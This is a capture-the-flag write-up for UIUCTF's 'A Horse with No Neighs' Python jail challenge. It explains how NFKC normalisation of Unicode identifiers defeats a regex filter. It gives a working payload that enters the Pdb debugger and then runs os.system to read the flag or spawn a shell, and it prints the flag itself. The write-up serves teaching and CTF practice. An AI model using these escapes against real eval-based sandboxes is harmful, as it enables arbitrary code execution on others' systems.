

# A Horse with No Neighs

Categories: Jail/Python

Description:
> A Horse with No Neighs
>
> - 332 points
>
> "horse wearing an eyepatch "
>
>
> Can you beat a dead horse? This challenge fixes an unintended bug in [A Horse with No Names](../a-horse-with-no-names).
>
> `nc neigh.chal.uiuc.tf 1337`
> [Dockerfile](resources/Dockerfile) [desert.py](resources/desert.py)

**Tags:** python, jail

## Takeaways

- Using `breakpoint()`
- Using `eval(input())`
- Using `import os; os.system("sh")`
- Unicode characters in python that translate to literals.
  - e.g. The unicode character "𝖖" (U+0x1d596) is mapped to the ascii character "q"

## Solution

This challenge is a fix of unintended solutions of the previous challenge, [A Horse with No Names](../a-horse-with-no-names). Here is the challenge's source code:

```python
#!/usr/bin/python3
import re
import random
horse = input("Begin your journey: ")
if re.search(r"[a-zA-Z]{4}", horse):
    print("It has begun raining, so you return home.")
elif len(set(re.findall(r"[\W]", horse))) > 4:
    print(set(re.findall(r"[\W]", horse)))
    print("A dead horse cannot bear the weight of all those special characters. You return home.")
else:
    discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
    random.shuffle(discovery)
    print("You make it through the journey, but are severely dehydrated. This is all you can remember:", discovery)
```

We will not go into details here, as these have already been covered bu the [previous challenge](../a-horse-with-no-names). However, we will go over a diff of the two challenges:

```diff
diff --git a/a-horse-with-no-names/src/desert.py b/a-horse-with-no-neighs/src/desert.py
index 36d0560..8d0e911 100644
--- a/a-horse-with-no-names/src/desert.py
+++ b/a-horse-with-no-neighs/src/desert.py
@@ -2,11 +2,11 @@
 import re
 import random
 horse = input("Begin your journey: ")
-if re.match(r"[a-zA-Z]{4}", horse):
+if re.search(r"[a-zA-Z]{4}", horse):
     print("It has begun raining, so you return home.")
 elif len(set(re.findall(r"[\W]", horse))) > 4:
     print(set(re.findall(r"[\W]", horse)))
-    print("A single horse cannot bear the weight of all those special characters. You return home.")
+    print("A dead horse cannot bear the weight of all those special characters. You return home.")
 else:
     discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
     random.shuffle(discovery)```
```

As we can see, the only essential change is that `match` was changed to `search`. Here is the difference according to the [documentation](https://docs.python.org/3/library/re.html)

> `re.match`: If zero or more characters at the **beginning** of string match the regular expression pattern, return a corresponding match object.
>
> `re.search`: Scan through string looking for the first location where the regular expression pattern produces a match, and return a corresponding match object.

So clearly our previous payload will not work as it used name such as `open`, `hash`, `divmod`, etc. We also can no longer use the `lambda` keyword. We have to find a different approach.

### A fresh approach

Let's try with unicode characters. From the [documentation], we know that:

> Python 3.0 introduces additional characters from outside the ASCII range (see PEP 3131). For these characters, the classification uses the version of the Unicode Character Database as included in the [unicodedata](https://docs.python.org/3/library/unicodedata.html#module-unicodedata) module.
>
> ...
>
> **All identifiers are converted into the normal form NFKC while parsing; comparison of identifiers is based on NFKC.**

This is interesting. What if our input was "ev𝕒l(1)" instead of "eval(1)". Would this trigger the `re.match`? The answer is no.

`re.match` would be invoked on our input string "ev𝕒l(1)", which does not contain 4 consecutive alphabetical characters. The "𝕒" is U+0x1D552, which is not matched by the regex. However, when our input is placed inside `compile` to generate the code object, the identifier "ev𝕒l" is converted to its normal NFKC form according to the documentation. And the normal value of "𝕒" is "a"! We can write a simple python script that finds all these mappings:

```python
import sys
import string
import unicodedata
mappings = { }
for i in range(sys.maxunicode+1):
    c = chr(i)
    normalized_c = unicodedata.normalize('NFKC', c)
    if normalized_c != c:
        print(f"input {c} (U+{hex(i)}) is normalized to {normalized_c}")
        if normalized_c in string.printable:
            mappings.setdefault(normalized_c, []).append(c)
for normalized_c in sorted(mappings.keys()):
    unic_list = mappings[normalized_c]
    print(f"literal '{normalized_c}' can be represented by: {unic_list}")
```

and here the result:



So, we can use that to bypass the `match` restriction, great! There is one small thing though. We cannot use `lambda` from our previous exploit. This is because `lambda` is a keyword and must appear as ASCII, thus not passing the `match` check.

The core idea behind the `lambda` in the previous exploit, was to increase nesting in order to bypass the `.replace(co_names=()` restriction. We can increase nesting by using instead list comprehension:

```python
horse='(eval for _ in (1,))'
code = compile(horse, "<horse>", "eval")
print(code.co_names)

# Out[15]: ()
```

Here, inside `horse`, we are creating a generator expression (`genexpr` object), `eval` is in a nested scope (in comparison to `1`, which is in the global scope), and `(1,)` is a tuple of one element.

### Putting the exploit together

So, let's combine all the pieces to generate our input exploit:

```python
(bre𝐚kpo𝐢nt() for _ in (1,))
```

In the source code, the result from `eval` is passed to a `list()` constructor. So, our generator object will become a concrete list and its elements will be evaluated.

Thus, when we enter the above payload, we get into the the Pdb debugger and can dump the flag:

```bash
(Pdb) import os; os.system('cat /flag.txt')
```

`uiuctf{my_challenges_always_have_unintended_solutions_and_i_am_less_okay_with_that}`

*(P.S.: Instead of `breakpoint`, we could also have used:*

- `eval(input())`
- `exec('import os; os.system("sh")')`

*with appropriate encoding ofcourse)*


